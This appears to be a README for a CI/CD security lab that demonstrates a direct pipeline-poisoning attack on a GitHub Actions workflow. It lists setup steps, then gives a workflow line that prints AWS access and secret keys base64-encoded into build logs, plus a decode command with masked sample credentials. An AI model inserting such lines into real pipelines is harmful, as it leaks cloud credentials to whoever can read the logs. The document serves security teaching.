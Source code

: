 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Execute Direct-PPE 

1.  Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build`

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

1. Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d

example
```
echo "YWNjZXNza2V5OiBBS0xxxxXSEpCQzRYTlNKRSAgc2VjcmV0a2V5OiBBYmJYd1pxd2tMeExmZxxxxQUkhOdU1aR0lkd3d2QjcrRFBpCg==" | base64 -d
accesskey: AKIA2INxxxxx4XNSJE  secretkey: AbbXwZqwkLxLfgfSxxxxxGIdwwvB7+DPi
```
